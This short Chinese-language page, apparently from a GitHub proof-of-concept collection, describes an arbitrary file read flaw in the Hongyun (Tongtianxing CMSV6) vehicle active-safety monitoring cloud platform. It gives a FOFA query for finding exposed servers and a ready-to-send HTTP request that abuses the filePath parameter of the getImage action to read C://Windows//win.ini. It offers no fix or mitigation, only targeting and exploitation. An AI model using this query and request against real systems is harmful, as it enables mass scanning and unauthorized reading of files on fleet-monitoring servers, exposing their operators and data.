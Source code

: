## 鸿运(通天星CMSV6车载)主动安全监控云平台存在任意文件读取漏洞

## fofa
```
body="./open/webApi.html"||body="/808gps/"
```

## poc
```
GET /808gps/StandardReportMediaAction_getImage.action?filePath=C://Windows//win.ini&fileOffset=1&fileSize=100 HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![image](https://github.com/wy876/POC/assets/139549762/4c7d4c08-d72f-477b-9604-f9cec433e39c)
